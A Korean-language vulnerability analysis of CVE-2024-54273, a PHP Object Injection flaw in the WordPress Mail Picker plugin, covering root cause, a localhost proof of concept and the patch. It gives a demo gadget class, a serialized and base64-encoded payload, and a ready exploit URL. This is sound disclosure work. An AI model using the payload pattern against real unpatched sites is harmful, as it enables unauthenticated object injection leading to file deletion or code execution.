


# CVE-2024-54273

## Index
* [📌 Analysis](#📌-analysis)
    * [1. 개요](#1-개요)
    * [2. 분석 준비](#2-분석-준비)
    * [2. 취약점 분석](#3-취약점-분석)
* [📌 PoC](#📌-poc)
* [📌 패치 확인](#📌-패치-확인)

## 📌 Analysis

### 1. 개요

CVE-2024-54273 에서는 WordPress 플러그인 Mail Picker 버전 1.0.14 이하에서 PHP Object Injection 취약점이 발견되었습니다. Mail Picker 플러그인은 이메일을 통한 마케팅 및 뉴스레터 발송을 지원하는 플러그인으로, 해당 플러그인에서는 알려진 POP Chain이 없으나 워드프레스 사이트에 추가 플러그인 및 테마에 POP Chain이 있는 경우 공격자는 해당 취약점을 통해 임의 파일 삭제, 민감 데이터 노출, 코드 실행 등 악의적인 행위를 일으킬 수 있습니다.

### 2. 분석 준비

Mail Picker 플러그인은 구독 폼 생성 페이지(`/wp-admin/post-new.php?post_type=subscriber_form`)에서 폼을 생성할 때, 폼을 삽입할 수 있는 Shortcode(`[mail_picker_form id='7']`)를 확인하실 수 있습니다.


해당 이메일 구독 폼을 생성할 때는 reCaptcha 옵션을 비활성화 하고 폼 내 입력 값을 이메일(`subscriber_email`), 핸드폰 번호(`subscriber_phone`)를 선택합니다.


위와 같이 만들어진 이메일 구독 폼은 포스트 또는 페이지를 생성할 때, Short Code로 입력할 수 있습니다.



이렇게 만들어진 글은 공개 시 아래의 이메일 구독 폼으로 완성됩니다.


### 3. 취약점 분석

이메일 구독 폼에 각 입력 폼(이메일, 핸드폰 번호)에 맞는 데이터를 입력하고 제출(Submit)을 수행할 경우 현재 페이지의 URL로 폼 요청(POST 메소드 요청)이 발생합니다.


이때 Mail Picker 플러그인의 `/wp-content/plugins/mail-picker/templates/mail-picker-form/mail-picker-form.php` 파일에서는 아래의 과정을 통해 URL 파라미터 `mail_picker_action=add_subscriber`, `formFieldData=<base64 인코딩 데이터>`, `subscriber_status=pending` 를 가지는 URL로 GET 요청을 수행합니다.

이 중 URL 파라미터 `formFieldData` 는 아래의 과정을 통해 설정됩니다.

1. 입력 폼에서 사용자가 입력한 데이터를 가져옵니다.
2. 가져온 데이터를 PHP의 serialize 함수로 직렬화합니다.
3. 직렬화된 데이터는 base64 방식으로 인코딩됩니다.
4. 인코딩된 데이터를 URL 파라미터 `formFieldData`의 값으로 설정합니다.


이어서 GET 요청 URL은 URL 파라미터 `mail_picker_action=add_subscriber` 에 의해 `web/app/wp-content/plugins/mail-picker/includes/classes/class-manage-subscriber.php` 의 `add_subscriber` 함수를 호출합니다. 

이때, 해당 함수를 호출할 때 아래의 두 가지 문제가 발생하게 됩니다.

- 첫 번째, 요청을 수행한 사용자에 대한 권한 검사를 수행하지 않는다.
- 두 번째, URL 파라미터 `formFiledData` 에 대한 역직렬화를 수행합니다.


따라서, 인증되지 않은 사용자가 Base64로 인코딩된 직렬화된 데이터를 URL `?mail_picker_action=add_subscriber&formFieldData=<base64 인코딩 데이터>&subscriber_status=pending` 에서 URL 파라미터 `formFieldData` 에 삽입할 경우 Base64로 디코딩 된 다음 함수 `unserialize` 에 의해 역직렬화를 수행하므로 Base64로 디코딩된 값에 직렬화된 데이터가 삽입될 경우 PHP Object Injection 취약점이 발생하게 됩니다.

## 📌 PoC

### 1. POP Chain 준비

아래의 코드를 `wp-config.php` 파일 내 하단에 추가합니다.

```php
class PoC_POP_Chain_Object {
	
	public $message = "";

	public function __destruct() {
		echo "<mark>Success PoP Chain</mark>";
		echo "<br>";
		echo "<mark>msg: ". $this->message ."</mark>";
	}
}
```


### 2. 직렬화된 데이터 준비

POP Chain을 위해 추가한 `PoC_POP_Chain_Object` 클래스에 `message` 가 `Exploit !!` 인 객체의 직렬화 데이터는 다음과 같습니다.

```
O:20:"PoC_POP_Chain_Object":1:{s:7:"message";s:10:"Exploit !!";}
```

이 데이터를 Base64로 디코딩하면 다음과 같습니다.

```
TzoyMDoiUG9DX1BPUF9DaGFpbl9PYmplY3QiOjE6e3M6NzoibWVzc2FnZSI7czoxMDoiRXhwbG9pdCAhISI7fQ
```

### 3. Exploit

Base64로 인코딩된 `PoC_PoP_Chain_Object` 클래스 객체의 직렬화 데이터를 URL 파라미터 `formFiledData`에 삽입합니다. 그리고 URL 파라미터 `mail_picker_action`의 값을 `add_subscriber`로, `subscriber_status`의 값을 `pending`으로 설정합니다.

완성된 URL은 다음과 같습니다.

```
http://localhost:8080/?mail_picker_action=add_subscriber&formFieldData=TzoyMDoiUG9DX1BPUF9DaGFpbl9PYmplY3QiOjE6e3M6NzoibWVzc2FnZSI7czoxMDoiRXhwbG9pdCAhISI7fQ&subscriber_status=pending
```

이후 해당 URL에 접속할 경우 다음과 같이 PHP Object Injection 취약점을 이용하여 POP Chain이 동작하는 것을 확인할 수 있으며, 직렬화된 객체의 `message` 값인 `Exploit !!`이 출력됩니다.



## 📌 패치 확인

> https://plugins.trac.wordpress.org/changeset/3206691/mail-picker?old=3126661&old_path=%2Fmail-picker#file83
> 

1.0.14 버전 이하에서는 직렬화된 데이터를 base64로 인코딩하여 직렬화된 데이터를 전송 했지만 패치된 1.0.15 버전에서는 직렬화 데이터 없이 데이터를 직접 전송하도록 변경되었습니다.(`/wp-content/plugins/mail-picker/templates/mail-picker-form/mail-picker-form.php` 파일 내 `mail_picker_form` 함수)


이에 취약점 트리거가 발생하는 위치(`/wp-content/plugins/mail-picker/includes/classes/class-manage-subscriber.php` 파일 내 `add_subscriber` 함수)에서도 역직렬화 함수 `unserialize` 를 제거하고 요청 데이터로부터 값을 그대로 사용하는 것을 확인하실 수 있습니다.


따라서, 패치 버전 1.0.15 버전부터는 사용자 입력값을 직렬화하지 않고 순수한 데이터 형태로 처리함으로써 PHP Object Injection 취약점을 원천적으로 차단하는 방식으로 패치되었습니다.